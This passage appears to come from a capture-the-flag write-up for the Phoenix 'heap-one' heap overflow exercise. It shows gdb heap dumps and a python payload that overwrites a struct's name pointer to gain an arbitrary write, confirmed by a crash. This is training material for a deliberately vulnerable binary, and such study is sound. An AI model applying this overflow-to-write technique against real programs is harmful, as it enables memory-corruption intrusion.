 ```c
(gdb) x/20x 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x42424242	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x43434343	0x44444444	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

Here are our values in heap

The values of ```priority``` (1,2) and ```name``` (argv[1],argv[2]) are stored here

```c
v1->priority -----          ----- address for i1->name to write
                 ↓          ↓
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x42424242	0x00000000	0x00000011
                ↑
                ----- v1->name data

v2->priority -----          ----- address for i2->name to write
                 ↓          ↓
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x43434343	0x44444444	0x00000000	0x000fffc1
                ↑
                ----- v2->name data

```

While entering input, we cannot overwrite ```0xf7e69018```,

But we can overwrite ```0xf7e69038``` with our input

We need ```20 bytes``` to reach the place of ```0xf7e69038```

If we place some address after 20 bytes, we can write our own value into the address from our ```argv[2]``` input data

Lets try our exploit,

```c
(gdb) r $(python -c "print('A'*20+'BBBB')") CCCCDDDD
Starting program: /home/user/heap-one $(python -c "print('A'*20+'BBBB')") CCCCDDDD

Program received signal SIGSEGV, Segmentation fault.
0xf7f840db in stpcpy () from /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x42424242 ("BBBB"?)
$ebx   : 0xf7ffb000  →  0x0008dedc
$ecx   : 0x43
$edx   : 0xffffd8db  →  "CCCCDDDD"
$esp   : 0xffffd6a4  →  0xf7ffb000  →  0x0008dedc
$ebp   : 0xffffd6f8  →  0xffffd794  →  0xffffd8e4  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$esi   : 0x42424242 ("BBBB"?)
$edi   : 0x3
$eip   : 0xf7f840db  →  <stpcpy+59> mov BYTE PTR [eax], cl
$eflags: [carry parity adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd6a4│+0x0000: 0xf7ffb000  →  0x0008dedc	 ← $esp
0xffffd6a8│+0x0004: 0x42424242
0xffffd6ac│+0x0008: 0xf7f8453e  →  <strcpy+30> add esp, 0x14
0xffffd6b0│+0x000c: 0x42424242
```